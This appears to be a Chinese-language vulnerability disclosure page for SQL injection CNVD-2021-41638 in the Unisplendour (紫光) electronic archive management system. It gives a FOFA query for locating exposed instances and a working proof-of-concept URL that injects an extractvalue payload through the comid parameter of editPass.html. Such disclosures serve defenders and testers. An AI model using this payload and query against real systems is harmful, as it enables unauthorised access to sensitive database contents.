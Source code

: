 # 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。
紫光电子档案管理系统存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>紫光电子档案管理系统</a-checkbox></br>

## FOFA

<a-checkbox checked>app="紫光档案管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1633168580711-690386c5-48bd-4162-b6ed-763c9f57ee73.png)

验证POC

```java
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![img](../../../.vuepress/public/img/1633168707994-229d0a0c-dedf-4d6b-9554-da2d9015767a.png)